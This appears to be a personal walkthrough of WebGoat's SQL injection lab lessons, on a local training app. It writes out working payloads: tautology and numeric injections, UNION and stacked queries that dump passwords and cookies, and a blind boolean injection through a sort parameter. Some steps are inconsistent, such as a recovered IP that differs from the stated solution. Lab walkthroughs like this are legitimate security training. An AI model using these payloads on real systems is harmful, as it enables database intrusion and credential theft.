



# SQL Injection
1. Enter Smith as query.
2. Returned data contains information about Jon Smith.

3. When SQL injection is done according to lesson, then all users table records are retrieved:
4. Enter `Smith' or '1'='1` as query (remember to not add trailing ' as it is already contained in query).
5. Returned data contains all records from users table.

## For numeric SQL injection:
1. Enter `1 or 1=1` or even `1 or true` as query.
2. Returned data contains all records from users table.

## SQL Advanced
### Union Attack
#### Fast answer
* write the following query `asd' or true; select * from user_system_data; --`
  * the name of the table, it is a default one and it can be found on the Internet
#### Long answer
1. First try was to query Smith as it is existing user, which returned results similar to previous exercise. That gives us insights into users table details: it has 7 columns: USERID, FIRST_NAME, LAST_NAME, CC_NUMBER, CC_TYPE, COOKIE, LOGIN_COUNT
2. On second attempt, UNION is used: Smith' union all select userid, user_name, user_name, user_name, user_name, password, cookie from user_system_data; -- with request for 7 columns (just repeat user_name enough times).
3. But in a result, comes the message:

4. Let’s now use different query: Smith' union select 1, password, password, password, password, password, 1 from user_system_data; --. As it turns out, USERID and LOGIN_COUNT are numeric types, where other columns are strings in the users table.

### SQL Injection (mitigations)
* Click on column sort performs a request to http://localhost:8080/WebGoat/SqlInjection/servers?column=ip. Which can be exploited by intercepting the request with ZAP and providing prepared string as ip.
* To get the idea about webgoat-prd IP address we first have to find out the table name and ip column name. The obvious guess is servers and ip:
`http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM servers WHERE hostname='webgoat-acc') = '192.168.3.3' THEN id ELSE hostname END)`
* If that is the correct table and column name, the table will get sorted by ids.
* So after intercepting and changing the request we get the table sorted by id, the guess was correct.
* Just to check our logic, lets send request to
  * `http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM whatever WHERE hostname='webgoat-acc') = '192.168.3.3' THEN id ELSE hostname END)` (servers changed to whatever).
* It get’s this pretty error page:
```HTML
<html><body><h1>Whitelabel Error Page</h1>
  <p>This application has no explicit mapping for /error, so you are seeing this as a fallback.</p>
  <div id='created'>Thu Mar 08 17:36:52 UTC 2018</div>
  <div>There was an unexpected error (type=Internal Server Error, status=500).</div>
  <div>user lacks privilege or object not found: SERVER</div>
</body></html>
```
Now with known table and column, lets try getting some idea about webgoat-prd IP:
1. http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM servers WHERE hostname='webgoat-prd') LIKE '192.168.%' THEN id ELSE hostname END), sorts by hostname –> wrong guess.
2. LIKE '192.%', sorts by hostname –> wrong guess. Lets back up a little then.
3. LIKE '1%', sorts by ip –> correct guess! Now we can continue by one position.
4. LIKE '10%', sorts by ip –> correct guess!
5. After some time…
6. LIKE '104.130.219.202', sorts by ip –> correct guess! That is the entire IP address.
With known `IP 104.130.219.202` providing it to the input field returns:

7. Solution: 192.168.4.0
